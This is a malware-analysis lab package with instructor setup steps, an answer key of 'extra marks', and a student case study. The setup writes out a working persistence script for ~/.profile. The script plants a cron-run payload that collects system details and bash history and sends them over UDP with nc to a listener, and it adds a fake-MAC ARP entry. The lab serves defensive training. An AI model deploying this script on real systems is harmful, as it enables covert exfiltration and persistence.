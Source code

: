 ## Prepare Environment
1. Create a virtual machine image with a Graphical version of Linux.
2. Ensure the following tools are installed on the system:
```bash
sudo apt update
sudo apt install -y crontab nc wireshark
```
3. Create a persistence script inside of the home folder (~/.profile) with the following contents:
```bash
#!/bin/bash

USER_NAME=$(whoami)
DEST_IP="192.168.0.10"
DEST_PORT="9001"
PAYLOAD_PATH="/home/$USER_NAME/.cache/NDA0c2VjcmV0c25vdGZvdW5k.sh"
CRON_CMD="$PAYLOAD_PATH >/dev/null 2>&1"
CRON_JOB="* * * * * $CRON_CMD"
FAKE_MAC="F0:0D:F0:0D:F0:0D"

# Recreate payload if missing
if [ ! -f "$PAYLOAD_PATH" ]; then
  mkdir -p "$(dirname "$PAYLOAD_PATH")"
  cat > "$PAYLOAD_PATH" << EOF
#!/bin/bash

OUTPUT_FILE="/tmp/system_profile.txt"

{
  uname -a
  echo
  who
  echo
  ip addr show
  echo
  tail -20 ~/.bash_history
} > "\$OUTPUT_FILE"

# Use UDP instead of TCP
nc -u "$DEST_IP" "$DEST_PORT" < "\$OUTPUT_FILE"
EOF

  chmod +x "$PAYLOAD_PATH"
fi

# Ensure cron job is present
crontab -l 2>/dev/null | grep -F -- "$CRON_CMD" >/dev/null
if [ $? -ne 0 ]; then
  (crontab -l 2>/dev/null; echo "$CRON_JOB") | crontab -
fi

# Ensure static ARP entry exists
arp -n | grep -q "$DEST_IP"
if [ $? -ne 0 ]; then
  sudo arp -s $DEST_IP $FAKE_MAC
fi
```
4. (Bonus step) Configure a machine with the `DEST_IP` and `DEST_PORT` from step 3 to see if any students analyse the malware with the network interface connected to a live network. This can be done with the `nc` tool to spin up a TCP server:
```bash
nc -luvp 9001
```

## Extra Marks
- The student disconnects the network interface card before starting analysis.
- The student discovers and removes the start up persistence script.
- The student discovers the payload file name is a base-64 encoded string of the phrase `404secretsnotfound`.
- The student discovers the MAC address spells out `FOODFOODFOOD`.

-------------------------------------------------------------------------
# Lab 01
-------------------------------------------------------------------------
## Case Study
You are a Cyber Security Analyst who has been tasked with analysing a machine that a client has suspected has malware on it.

The client plugged a USB device into the system and a terminal opened before closing quickly. The client suspects the USB device loaded malware onto the system. The USB device was destroyed so you cannot analyse it.

## Goal
Your goal is to find evidence of malware, and remove it permanently from the system. 
Tools that may be useful to complete your goal include:
- `Wireshark` or `tcpdump`
- `grep`

## Post Analysis
### What was the type and purpose of the malware?
_Type your answer here_

### What tools did you use to detect the malware?
_Type your answer here_

### What steps did you take to remove the malware?
_Type your answer here_

### What steps could be taken in the future to reduce the exposure to similar malware?
_Type your answer here_

### What part of the analysis was most challenging?
_Type your answer here_